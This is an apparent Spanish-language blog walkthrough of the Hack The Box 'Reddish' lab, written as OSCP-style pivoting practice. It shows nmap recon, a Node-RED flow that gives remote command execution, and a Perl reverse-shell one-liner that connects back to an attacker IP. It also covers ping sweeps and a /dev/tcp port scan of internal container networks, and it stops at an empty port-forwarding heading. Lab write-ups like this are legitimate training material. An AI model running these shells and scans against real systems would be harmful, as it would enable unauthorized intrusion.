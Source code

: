 ```yaml
---
layout: post
title:  "[eCPPT/OSCP Style] - Pivoting Reddish"
date:   2021-10-17 09:29:20 +0700
categories: jekyll update
---
```

<figure>
<img src="/assets/img/reddishlogo.png" alt="reddishlogo">
</figure>

Este walkthrough muestra el paso a paso para explotar un laboratorio de hackthebox (Reddish), utilizado como entrenamiento para preparar el examen de OSCP o eCPTT especificamente para el skill de pivoting.

Conectar VPN de Hackthebox `sudo openvpn 5pok.ovpn` y realizar un ping a la maquina vulnerable `ping -c 1 10.10.10.94`


# Recon 
### Nmap
Utilizar [nmap][nmap] para empezar la fase de recon.

{% highlight bash %}
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.94

Nmap scan report for 10.10.10.94
Host is up (0.023s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
1880/tcp open  vsat-control

# Nmap done at Sat Jul 21 17:28:24 2018 -- 1 IP address (1 host up) scanned in 11.21 seconds

nmap -p 1880 -sC -sV -oA nmap/port1880 10.10.10.94

Nmap scan report for 10.10.10.94
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js Express framework
|_http-title: Error

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 21 17:37:09 2018 -- 1 IP address (1 host up) scanned in 12.71 seconds
{% endhighlight %}  

### NodeRed - p:1880

Solo tenemos un puerto abierto. Así que lo abri en el browser, me mostro un error de método GET.

<figure>
<img src="/assets/img/1.png" alt="1">
</figure>

Capture la request con burp suite y cambié la solicitud a POST y obtuve una respuesta. Contiene un ID y un path. Podemos acceder a esa ruta solo con un ID. Es un servicio [Node-RED][nodered]

<figure>
<img src="/assets/img/2.png" alt="2">
</figure>

# Code Execution / Shell in Node-Red

Deberia quedar un flujo asi:

<figure>
<img src="/assets/img/3.png" alt="3">
</figure>

Tambien existe otra forma, importando el siguiente codigo (modificando el host 10.10.X.X)


{% highlight json %}
[
  { "id": "7235b2e6.4cdb9c", "type": "tab", "label": "Flow 1" },
  {
    "id": "d03f1ac0.886c28",
    "type": "tcp out",
    "z": "7235b2e6.4cdb9c",
    "host": "",
    "port": "",
    "beserver": "reply",
    "base64": false,
    "end": false,
    "name": "",
    "x": 786,
    "y": 350,
    "wires": []
  },
  {
    "id": "c14a4b00.271d28",
    "type": "tcp in",
    "z": "7235b2e6.4cdb9c",
    "name": "",
    "server": "client",
    "host": "10.10.XX.XX",
    "port": "3488",
    "datamode": "stream",
    "datatype": "buffer",
    "newline": "",
    "topic": "",
    "base64": false,
    "x": 281,
    "y": 337,
    "wires": [["4750d7cd.3c6e88"]]
  },
  {
    "id": "4750d7cd.3c6e88",
    "type": "exec",
    "z": "7235b2e6.4cdb9c",
    "command": "",
    "addpay": true,
    "append": "",
    "useSpawn": "false",
    "timer": "",
    "oldrc": false,
    "name": "",
    "x": 517,
    "y": 362.5,
    "wires": [["d03f1ac0.886c28"], ["d03f1ac0.886c28"], ["d03f1ac0.886c28"]]
  }
]
{% endhighlight %}  

{% highlight bash %}
root@kali# nc -lnvp 3488
listening on [any] 3488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51766
> id
uid=0(root) gid=0(root) groups=0(root)

> pwd
/node-red

> ls /home
node

> ls /home/node
{% endhighlight %}

Luego abrir una reverse shell con perl, ya que la maquina virtual no posee python, nc, etc

{% highlight perl %}
perl -e 'use Socket;$i="10.10.14.30";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

<figure>
<img src="/assets/img/4.png" alt="4">
</figure>

# NODERED -> CONTAINER TWO (AKA WWW)
### Local Enumeration

{% highlight bash %}
# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
9: eth1@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
11: eth0@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
{% endhighlight %}

Podemos ver que estamos dentro de un contenedor.

<figure>
<img src="/assets/img/5.png" alt="5">
</figure>

### Network Enumeration

Utilizaremos un one piner para ver los host que estan activos dentro de la red.

{% highlight bash %}
# for i in $(seq 1 20); do (ping -c 1 172.18.0.$i | grep "bytes from"); done
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.065 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.032 ms
# for i in $(seq 1 20); do (ping -c 1 172.19.0.$i | grep "bytes from"); done
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.106 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.088 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.022 ms
{% endhighlight %}

Ahora tenemos dos nuevos host

<figure>
<img src="/assets/img/6.png" alt="6">
</figure>

Port scan en bash

{% highlight bash %}
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.2/$p && echo "$p open") 2>/dev/null; done'
6379 open
# bash -c 'for p in $(seq 1 10000); do(echo test >/dev/tcp/172.19.0.4/$p && echo "$p open") 2>/dev/null; done'
80 open
{% endhighlight %}

# Pivoting 
### Port Forwarding






[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/

